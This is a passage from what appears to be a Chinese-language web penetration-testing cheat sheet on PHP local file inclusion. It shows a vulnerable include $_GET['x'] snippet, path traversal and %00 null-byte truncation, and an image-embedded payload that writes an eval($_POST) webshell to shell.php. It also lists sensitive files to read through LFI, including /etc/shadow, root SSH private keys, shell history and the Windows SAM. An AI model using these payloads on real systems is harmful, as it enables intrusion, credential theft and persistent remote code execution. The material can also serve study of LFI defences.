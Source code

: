 - 相对路径：../../../../etc/password

* 
%00截断包含（PHP<5.3.4）（magic_quotes_gpc=off才可以，否则%00会被转义）
```php
<?php
include $_GET['x'].".php";
echo $_GGET['x'].".php";
?>
```



## 0x07 利用技巧

首先上传图片马，马包含以下代码：
```php
<?fputs(fopen("shell.php"),"w"),"<?php eval($_POST[x]);?>"?>
```

上传后图片路径为假设为/uploadfile/x.jpg，当访问http://127.0.0.1/xx.php?page=uploadfile/x.jpg 时，将会在文件夹下生成shell.php，内容为
```php
<?php eval($_POST[x]);?>
```



## 0x08 读敏感文件

#### 1. Windows

- C:\boot.ini        //查看系统版本
- C:\Windows\System32\inetsrv\MetaBase.xml        //IIS配置文件
- C:\Windows\repair\sam        //存储系统初次安装的密码
- C:\Program Files\mysql\my.ini        //Mysql配置
- C:\Program Files\mysql\data\mysql\user.MYD        //Mysql root
- C:\Windows\php.ini        //php配置信息
- C:\Windows\my.ini        //Mysql配置信息

#### 2. Linux

- /root/.ssh/authorized_keys
- /root/.ssh/id_rsa
- /root/.ssh/id_rsa.keystore
- /root/.ssh/known_hosts
- /etc/passwd
- /etc/shadow
- /etc/my.cnf
- /etc/httpd/conf/httpd.conf
- /root/.bash_history
- /root/.mysql_history
- /proc/self/fd/fd[0-9]*   （文件标识符）
- /proc/mounts
- /proc/config.gz
